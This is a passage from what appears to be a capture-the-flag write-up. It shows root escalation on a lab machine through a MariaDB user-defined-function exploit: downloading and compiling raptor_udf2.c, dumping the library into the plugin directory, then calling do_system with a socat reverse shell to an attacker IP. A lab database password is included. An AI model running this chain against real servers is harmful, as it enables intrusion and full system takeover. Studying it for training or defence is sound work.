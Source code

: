 | Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
2 rows in set (0.001 sec)
```

The exploit is also hosted on ```exploitdb```:
https://www.exploit-db.com/exploits/1518


```
pwd
/home/svc
wget 10.10.14.7/1518.c
wget 10.10.14.7/1518.c
--2022-06-19 21:39:29--  http://10.10.14.7/1518.c
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3281 (3.2K) [text/x-csrc]
Saving to: ‘1518.c’

1518.c              100%[===================>]   3.20K  --.-KB/s    in 0.001s  

2022-06-19 21:39:29 (4.85 MB/s) - ‘1518.c’ saved [3281/3281]

mv 1518.c raptor_udf2.c
mv 1518.c raptor_udf2.c
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root -p
Enter password:
Nildogg36
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/svc/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select do_system('socat TCP:10.10.14.7:8083 EXEC:sh');
```

## root
By triggering the ```do_system``` function in ```mysql``` we now can execute shell commands and spawn back a reverse shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8083  
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8083
Ncat: Listening on 0.0.0.0:8083
Ncat: Connection from 10.10.11.160.
Ncat: Connection from 10.10.11.160:39172.
sh: 0: can't access tty; job control turned off
$ whoami
root
